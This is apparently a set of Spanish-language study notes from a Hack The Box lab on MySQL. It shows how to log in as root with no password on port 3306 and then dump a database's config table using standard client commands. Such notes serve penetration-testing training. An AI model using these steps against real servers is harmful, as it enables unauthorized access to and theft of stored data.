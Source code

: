 SQL (Structured Query Language) es un lenguaje diseñado para gestionar y manipular bases de datos relacionales.  
Permite consultar, insertar, actualizar y eliminar datos usando comandos estructurados.
Normalmente corre por el puerto 3306
*Terminar siempre las consultas con ;*

# Posible vulnerabilidad y como conectarse
#### Conectarse con el usuario root sin otortar contraseña

```shell
mysql -h Ip -P Puerto -u root
Ejemplo: mysql -h 10.129.68.124 -P 3306 -u root
```
*Parametros:*
`-h` Ip
`-P` Puerto
`-u` Usuario
`-p` Contraseña

![[mysql1.png]]

# Como dumpear datos

```
show databases;  
use htb;
show tables;
select * from config;
```

`show databases;` Es para mostrar todas la bases de datos
`use htb;` Es para usar en este caso la base de datos llamada htb
`show tables;` Es para mostrar todas las tablas
`select * from config;` Muestra todo el contenido de la tabla config

Usamos la base de datos htb y despues dumpeamos los datos de la tabla config
![[Sequel5.png]]